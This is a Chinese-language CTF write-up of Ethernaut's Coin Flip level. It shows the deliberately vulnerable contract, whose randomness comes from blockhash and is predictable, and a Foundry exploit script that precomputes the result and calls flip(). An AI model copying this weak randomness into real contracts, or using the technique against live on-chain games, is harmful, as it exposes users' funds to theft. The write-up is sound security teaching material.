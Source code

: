 # Level 3 - Coin Flip
## 題目
[Coin Flip](https://ethernaut.openzeppelin.com/level/0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF)

### 通關條件
這是一個擲銅板的遊戲。你需要連續地猜對擲出來的結果。為了完成這一關，你需要利用你的超能力，然後連續猜對十次。
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
## 解題
這一題的目標是跟合約玩猜硬幣的遊戲，並且要連續猜對 10 次
所以我們可以嘗試從合約中找到它是怎麼決定這把要出什麼，首先合約中只有一個 function `flip(bool _guess)` 也就是呼叫這個 function 並決定你要猜 true 或是 false，可以從第 24 行看到它是用 `side == _guess` 進行比較，而 `side` 的計算方式在 21 - 22 行決定，決定方式如下：
```solidity=21
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
```
也就是說，這個值不是隨機的。我們只要將一樣的計算方式放入我們的攻擊合約就好。

21 行的 `FACTOR` 可以在第 7 行找到，是常數。`blockValue` 就比較麻煩了，可以在第 14 行中找到，但是它使用到 `block.number` ，所以我們每次猜的時候必須要跟合約在同一個區塊上
但是 16, 20 行又禁止每次猜的時候在同一個區塊。所以這題我們必須寫一個計算它出什麼然後呼叫 `flip()` 的合約，並且呼叫 10 次

>[!Tip]
>`block.number` 是 Solidity 的全域變數，Solidity 的全域變數通常用來儲存與區塊鏈或是交易有關的資訊，其他常見的全域變數可以參考：[[英文] Understanding Solidity Global Variables: Types and Uses](https://metana.io/blog/solidity-global-variables-types-and-uses/)

確認每個變數以及計算方式後，就可以攻破這關了，攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/03_CoinFlip.sol";

contract ExploitScript is Script {
    CoinFlip public level03 = CoinFlip(your_challenge_address);
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function run() external {
        vm.startBroadcast();

        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        level03.flip(side);

        vm.stopBroadcast();
    }
}
```
接下來只要透過 forge 呼叫 10 次即可。
